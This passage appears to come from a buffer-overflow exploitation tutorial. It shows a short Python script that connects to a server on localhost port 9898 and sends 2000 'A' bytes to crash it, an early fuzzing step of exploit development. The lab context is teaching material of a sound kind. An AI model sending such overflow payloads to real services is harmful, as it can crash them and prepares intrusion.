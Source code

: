 ![](Pics/edb3.png)
<br />

Now, let's write a small python script that connects to the server program and send 2000 `A`.

```
#!/usr/bin/env python3

import socket

length = 2000

payload = b"".join(
   [
      b"A" * length
   ]
)

s = socket.socket()
s.connect(('127.0.0.1', 9898))
print(s.recv(3000))
s.send(payload)
s.close()
```
